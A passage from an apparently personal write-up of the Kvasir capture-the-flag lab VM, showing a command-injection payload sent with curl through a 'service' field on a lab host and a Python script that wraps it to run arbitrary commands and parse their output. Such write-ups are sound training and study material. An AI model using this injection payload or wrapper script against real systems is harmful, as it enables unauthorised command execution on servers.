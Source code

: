 So, with our payload, we have modified this to run `/etc/init.d/apache2; status`, which will fail for obvious reasons! A little more fiddling finally got me to a working payload by posting `service=` as `;echo 'id';` where the single quotes are actually back ticks. (octopress grrr)

```bash
root@kali:~# curl 'http://192.168.56.102/admin.php' --data 'service=;echo `id`;'

[... snip ...]

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

##netcat is our entry into the rabbit hole
With the command injection now exploitable, I grabbed some skeleton code that I normally use to try and make these types of command execution vulnerabilities slightly easier to work with. The basic premise is to have the command executed, and the response regex'd out. This ended up as the following python script:

```python
#!/usr/bin/python

# Kvasir Command Execution

# $ python cmd.py "uname -a"
# Command to run: uname -a
# 
# Linux web 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64 GNU/Linux

import requests
import re
import sys
import os
import binascii

print 'Command to run: %s' % sys.argv[1]

# generate 2 random strings so that we can regex out the command output
command_start = binascii.b2a_hex(os.urandom(30))
command_end = binascii.b2a_hex(os.urandom(30))

# prepare something that we can regex out
params = {'service' : ';echo %s; echo `%s`; echo %s;' % (command_start, sys.argv[1], command_end) }

#fetch, ignoring the troll redirect
r = requests.post('http://192.168.56.102/admin.php', params, allow_redirects=False)

#match regex and print
print  re.findall(r'%s([^|]+)%s' % (command_start, command_end), r.text)[0].replace('\n%s\n' % command_end,'')
```

So, now I can just run `python cmd.py "id"` and get the output (the *(kvasir)* in front of my prompt is my python virtualenv where I installed the `requests` dependency):
